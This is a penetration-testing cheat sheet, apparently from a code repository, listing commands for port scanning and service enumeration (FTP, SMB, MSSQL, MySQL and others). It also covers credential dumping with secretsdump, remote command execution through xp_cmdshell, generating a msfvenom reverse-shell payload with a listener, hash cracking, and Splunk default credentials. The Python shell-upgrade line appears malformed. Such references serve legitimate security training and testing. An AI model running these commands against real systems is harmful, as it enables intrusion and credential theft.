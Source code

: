 # Recon & Enum
## The basic
Data and information gathering.

## [nmap](https://nmap.org/book/man.html)
1. Host scan
```
nmap -p 1-65535 -v -A -Pn [IP_ADDR]
nmap -sC -sV -A -p- -v [IP_ADDR]
```

## Commonly seen port (Default port num)
### FTP (21)
```
ftp [IP_ADDR]
anonymous sign in
```

### SSH (22)
```
ssh [USERNAME]@[IP_ADDR] [PORT]
ssh [USERNAME]@[IP_ADDR] -i id_rsa    # chmod 600 id_rsa
```

### HTTP (80) / HTTPS (443)
```
gobuster dir -u [URL] -w [WORDLIST]   # Files enumeration
nikto -h [URL]
davtest -url [URL]    # PUT method test
cadaver [IP_ADDR]
```

### Kerberos (88)


### Network File System (111 & 2049)
```
showmount -e [IP_ADDR]
mount -t nfs [IP_ADDR]:/[Remote_Folder] [Local_Folder]/
```

### SMB (445)
```
smbclient -L [IP_ADDR]    # To list out available directories
smbclient \\\\[IP_ADDR]\\[DIRECTORY]    # To show directory content
smbclient \\\\[IP_ADDR]\\[DIRECTORY] -D [DOMAIN] -U [USERNAME]    # Sign in with username
smbmap -H [IP_ADDR] -u [USERNAME]
lookupsid.py anonymous@$[IP_ADDR]   # with IPC$ readonly permission
secretsdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP_ADDR]   # with ADMIN$ write permission
```
MS17-010 EternalBlue exploitation for SMBv1 in Windows Vista, 7, 8.1, 10; Server 2008, 2012, 2016
SMB share folder mounting
```
mkdir /mnt/[FOLDER_NAME]
mount -t cifs -o username=[USERNAME] //[IP_ADDR]/[SHARED_PATH] /mnt/[FOLDER_NAME]
```
Mounting VHD file
Ref: https://www.how2shout.com/linux/mount-virtual-hard-disk-vhd-file-ubuntu-linux/

### Microsoft SQL (1433)
```
impacket-mssqlclient [DOMAIN]/[USERNAME]@[IP_ADDR] -windows-auth    # Connect to mssql server
SELECT IS_SRVROLEMEMBER('sysadmin')   # Check for sysadmin privileage; return 1 for true, 0 for false
SELECT name FROM master.dbo.sysdatabases    # Retrieve list of databases
EXEC master..xp_cmdshell '[CMD]'    # Execute remote command with sysadmin privileage
```

### MySQL (3306)
```
mysql -u [USERNAME] -h [IP_ADDR] -p   # Connect to mysql server
mysql -u [USERNAME] -h [IP_ADDR] -p -e 'SHOW DATABASES;'
mysql -u [USERNAME] -h [IP_ADDR] -p -e 'USE [DATABASE]; SHOW TABLES;'
```

### RDP (3389)
```
rdesktop -u [USERNAME] [IP_ADDR]:[PORT]
```

### Apache Tomcat (8080)
```
Default page:
/admin
/manager
/manager/html
```

### SPLUNK (8089)
```
Default Credential 
admin:changeme
```

# Working with MSFVENOM and MSFCONSOLE
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[MY_IP_ADDR] LPORT=4444 -f [asp/aspx/php/filetype] > [OUTPUT_FILE.asp/aspx/php/filetype]

----------------------------------
msfconsole:
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp   # payload match with the one used in venom
run     # start listener

----------------------------------
meterpreter session:
getuid     # get current user session
sysinfo    # get information of the remote system
background / ctrl+z
use post/multi/recon/local_exploit_suggester    # set session number
```
## Cisco router password cracker
https://github.com/axcheron/cisco_pwdecrypt
https://www.ifm.net.nz/cookbooks/cisco-ios-enable-secret-password-cracker.html

## Netcat
Listener (on attacker machine)
```
nc -lnvp [PORT]
l = listen; n = ip addresses only, no DNS lookup; v = verbose; p = local port
```

## John
```
john [hash_file] --format=Raw-SHA1 --wordlist=/usr/share/wordlists/rockyou.txt
```

## Hashcat
```
hashcat -a 3 -m 0 [HASH_FILE] /usr/share/wordlists/rockyou.txt    # -a 3 bruteforce attack; -m 0 MD5 mode
```
Ref: https://hashcat.net/wiki/doku.php?id=example_hashes

## Python
```
python3 'import pty;pty.spawn("/bin/bash");'
```
